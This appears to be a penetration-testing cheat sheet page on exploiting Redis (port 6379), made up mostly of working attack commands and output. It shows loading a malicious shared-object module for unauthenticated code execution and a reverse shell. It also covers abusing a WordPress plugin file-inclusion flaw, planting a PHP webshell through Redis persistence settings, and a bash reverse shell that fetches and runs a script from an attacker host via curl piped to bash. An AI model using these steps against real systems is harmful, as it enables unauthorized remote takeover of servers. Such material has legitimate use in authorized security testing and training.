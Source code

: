 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 6379 - Redis

Redis is an open-source, in-memory key-value data store used for high-performance caching, message brokering, and real-time analytics. It supports a variety of data structures like strings, hashes, lists, sets, and sorted sets, and operates entirely in memory for speed, with optional persistence to disk. By default, Redis listens on TCP port `6379` and **has no authentication or encryption unless explicitly configured**, which often makes it a target during red team operations. The default configuration file is located at `/etc/redis/redis.conf`.

## Usage

{% tabs %}
{% tab title="Basic" %}
```bash
redis-cli -u redis://target:port
> INFO
> ACL WHOAMI # List current context
> ACL LIST # List user's ACL
> CONFIG GET DIR # List on-disk persistence directories
> CONFIG SET DIR /tmp # Change directory
> SLAVEOF 10.10.10.10 8080 # Point replication to a malicious server
```
{% endtab %}
{% endtabs %}

## Unauthenticated Root RCE

In Redis `4.x` and `5.x` instances the ability to load shared object (`.so`) modules at runtime can leveraged to gain RCE. Exploitation requires two conditions to be met:

1. **Privileged Access to Redis** → The attacker must be able to issue privileged Redis commands such as `MODULE LOAD`. This is possible if the Redis instance is exposed to the internet without authentication or the attacker has acquired valid credentials to an authenticated instance. In addition, Redis must not restrict module loading; unless explicitly disabled, this capability is broadly accessible in insecure deployments.
2. **Writable Location on Target Filesystem** → The attacker must be able to place a malicious `.so` file on the target machine. Two main techniques can be used:
   1. Abuse Redis’s persistence settings: using `CONFIG SET dir` and `CONFIG SET dbfilename`, combined with `SAVE`, an attacker can write arbitrary files to locations such as `/tmp/`.
   2. Upload externally: if another service (e.g., FTP) exposes a writable path, the attacker can upload the `.so` file and instruct Redis to load it by its absolute path.

Once the malicious module is in place, Redis will load it and execute the attacker's code within the server's process space, effectively achieving RCE. For either case, a `.so` file must be created. This can be done via the original [PoC](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) or its modified [more modern version](https://github.com/CSpanias/redis-module-rce):

{% code overflow="wrap" %}
```bash
~$ git clone https://github.com/CSpanias/redis-module-rce && cd redis-module-rce && make
<SNIP>
gcc -Wall -fPIC -O2 -std=gnu99 -Imodule -shared -o module.so module/module.c

~/redis-module-rce$ ls -l module.so
-rwxr-xr-x 1 x7331 x7331 38704 Aug  1 14:29 module.so

~/redis-module-rce$ file module.so
module.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=c35119dc82e22bb135fb85215b9c0f40c98edde4, not stripped
```
{% endcode %}

{% tabs %}
{% tab title="Redis Persistence Settings" %}
This [PoC](https://github.com/CSpanias/redis-module-rce) can be used to leverage the Redis settings:

```bash
./redis-rce.py --rhost redis-instance --lhost 192.168.45.170
```
{% endtab %}

{% tab title="External Upload" %}
If `write` access to the target host is already obtained, i.e., via FTP, the `.so` file can be uploaded and then loaded into Redis:

```bash
# Upload the .so file to the target host via FTP
$ ftp ftp@redis-target
ftp> cd pub
ftp> put module.so
ftp>exit
​
# Connect to the Redis instance
$ redis-cli -h redis-target
redis-target:6379> MODULE LOAD /var/ftp/pub/module.so # Load the module
OK

redis-target:6379> MODULE LIST # Confirm that the module is loaded
1) 1) "name"
   2) "system" # The function of interest
   3) "ver"
   4) (integer) 1

redis-target:6379> system.exec "id" # System command execution

redis-target:6379> system.rev 192.168.45.170 6379 # Reverse shell
```
{% endtab %}
{% endtabs %}

## Authenticated RCE

{% tabs %}
{% tab title="Webroot & Writable Paths" %}
The apache configuration file (`/etc/apache2/sites-enabled/000-default.conf`) can be used to find the webroot and the Redis service configuration (`/etc/systemd/system/redis.service`) can be used to find writable paths:

{% code overflow="wrap" %}
```bash
# Find the webroot (e.g. via LFI)
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/apache2/sites-enabled/000-default.conf

DocumentRoot /var/www/html
 
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/systemd/system/redis.service          

ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
```
{% endcode %}
{% endtab %}

{% tab title="Webshell" %}
Create a webshell to test RCE:

```bash
$ redis-cli -h wp-instance -a Passw0rd123!
wp-instance:6379> config set dir /opt/redis-files
OK
wp-instance:6379> config set dbfilename test.php
OK
wp-instance:6379> set test "<?php system('id'); ?>"
OK
wp-instance:6379> save
OK
```

The contents of the file will be in RDB format so we can write it to the a file and run `strings`:

{% code overflow="wrap" %}
```bash
$ curl -s http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
                                                                                                            
$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
$ strings test.php      
<SNIP>
uid=1000(bob) gid=1000(bob) groups=1000(bob)
```
{% endcode %}
{% endtab %}

{% tab title="RevShell" %}
{% code title="shell.sh" %}
```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/192.168.45.170/9002 0>&1
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wp-instance:6379> config set dir /opt/redis-files
OK
wp-instance:6379> config set dbfilename test.php
OK
wp-instance:6379> set test "<?php system('curl 192.168.45.170/shell.sh | bash'); ?>"
OK
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Trigger the revshell
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php
```
{% endcode %}
{% endtab %}
{% endtabs %}
